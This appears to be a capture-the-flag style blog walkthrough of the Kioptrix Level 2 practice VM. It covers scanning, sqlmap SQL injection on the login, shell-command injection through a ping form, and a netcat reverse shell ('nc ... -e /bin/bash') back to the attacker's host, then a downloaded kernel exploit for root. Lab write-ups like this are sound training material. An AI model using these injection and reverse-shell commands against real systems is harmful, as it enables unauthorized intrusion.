 ```yaml
---
layout:		post
title:  	"Kioptrix Level 2"
date: 		2018-02-26 14:00:00 +0800
summary:	Today we are going to solve Kioptrix Level 2. First we need to...
categories:	kioptrix
---
```

Today we are going to solve Kioptrix Level 2. First we need to download the VM from the kioptrix website, add it to VMware and power it up!

We are met with this image:

![Kioptrix Login](/assets/kioptrix-start.png){: .center-image }

Let's get started. From my Kali machine I'm going to run an nmap scan, this will scan the entire network and we should be able to find the IP address of the Kioptrix machine. 

![nmap scan](/assets/nmap scan.PNG){: .center-image }

The nmap scan has brought back a number of open ports. The most interesting here would be the port 3306, the MySQL port. Let's look a bit further into that.

To do this we're going to use Metasploit. First we need to find out what version of MySQL is on the Kioptrix machine. We will do this with the following

{% highlight ruby %}
use auxiliary/scanner/mysql/mysql_version
set rhosts 192.168.1.101
set rport 3306
run
{% endhighlight %}
<br>
<br>
![mysql](/assets/mysql version result.PNG){: .center-image }
<br>
<br>
Well, that didn't really get us anywhere. At least we know it is mySQL. Let's launch a browser, go to the IP address and see what we are greeted with. 
<br>
<br>
![landing](/assets/web landing page.PNG){: .center-image }
<br>
<br>
A login page. Let's use burpsuite, intercept the login and see what we can find out. 
<br>
<br>
![burpsuite](/assets/burpsuite.PNG){: .center-image }
<br>
<br>
Burpsuite has intercepted the login! Let's use this with sqlmap to try and get a workaround. 
<br>
In terminal we write:
<br>
{% highlight ruby %}
sqlmap -u "http://192.168.1.101/index.php" --data "uname=admin&psw=password&btnLogin=Login" --level=5 --risk=3
{% endhighlight %}
<br>
<br>
-u is for URL<br>
--data this is where we put the data from our burpsuite intercept<br>
--level is level of tests to perform from 1-5, may as well max it out<br>
--risk is risk of tests 1-3, same again, max it out. As this isn't a real-world test we don't have to worry too much about the risk or level of attacks. <br>
<br>
![sqlmap complete](/assets/sqlmap-complete.PNG){: .center-image }
<br><br>
sqlmap has completed and found multiple injection points. Let's just use the username POST injection, we can do this in burpsuite by replacing the original code with the injection code. 
<br><br>
Now we are at this page:
<br><br>
![web after login](/assets/webpage after login.PNG){: .center-image }
<br><br>
What we need to now do is see if this textbox will run extra commands for us. Let's ping the Kioptrix machine and add {% highlight ruby %}; ls -l{% endhighlight %} and see if it brings back a list of files and owner of those files.

Sure enough, it does! Let's use another handy tool bundled in Kali, netcat

First we need to work out the location to put netcat on the Kioptrix machine. For this we use "; find / -name nc 2>/dev/null" into the webpage. This brings back "/usr/local/bin/nc". 

In Terminal, we get netcat listening with <br>{% highlight ruby %}nc -lvp 1111{% endhighlight %}<br>I used port 1111, you can use whatever port you wish. 
<br>
Then back in the webapp textbox we need to input<br>{% highlight ruby %}; /usr/local/bin/nc 192.168.1.5 -e '/bin/bash' 1111{% endhighlight %}
<br>
Now we've got a netcat connection going! Let's get some more information about the kernel. A quick {% highlight ruby %}uname -a{% endhighlight %} shows us this:
<br><br>
![uname](/assets/kernel.PNG){: .center-image }
<br><br>
We now know it's Linux Kernel 2.6.9-55 - Let's google an exploit! <a href="http://www.exploit-db.com/exploits/9542/">This exploit</a> seems like it's gonna work for us! It's been tested on a similar machine to this one. <br><br>Let's save that to "/var/www/html", start Apache on our Kali machine and download the exploit through the session we created with netcat.

Okay, to download it let's first cd to /tmp. Now we can wget from our apache server, compile and execute!

![root](/assets/root.PNG){: .center-image }

Done! We are now root. I'll just change the password and login via the VM.

![have root](/assets/haveroot.PNG){: .center-image }
<br><br>
Thanks guys!
